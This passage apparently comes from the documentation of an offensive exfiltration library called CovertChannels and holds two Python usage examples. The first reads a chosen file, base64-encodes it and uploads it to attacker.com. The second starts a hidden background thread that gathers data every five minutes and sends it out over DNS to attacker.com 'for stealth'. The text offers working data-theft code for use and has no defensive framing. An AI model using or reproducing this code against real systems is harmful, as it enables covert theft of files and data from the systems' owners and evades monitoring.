 ```python
# Exfiltrate specific files
def exfil_file(filepath):
    with open(filepath, 'rb') as f:
        file_data = f.read()
    
    # Encode file data
    encoded_data = base64.b64encode(file_data)
    
    # Exfiltrate
    exfil = CovertChannels()
    results = exfil.exfiltrate_data(
        data=encoded_data,
        channels=['https'],
        channel_configs={
            'https': {
                'target_url': 'https://attacker.com/upload',
                'headers': {'Content-Type': 'application/octet-stream'}
            }
        }
    )
    
    return results
```

### Example 3: Continuous Monitoring

```python
# Set up continuous data exfiltration
import time
import threading

def continuous_exfil():
    exfil = CovertChannels()
    
    while True:
        # Gather current data
        current_data = gather_current_data()
        
        # Exfiltrate
        exfil.exfiltrate_data(
            data=json.dumps(current_data).encode(),
            channels=['dns'],  # Use DNS for stealth
            channel_configs={
                'dns': {'dns_server': '8.8.8.8', 'domain': 'attacker.com'}
            }
        )
        
        # Wait before next exfiltration
        time.sleep(300)  # 5 minutes

# Run in background
thread = threading.Thread(target=continuous_exfil, daemon=True)
thread.start()
```
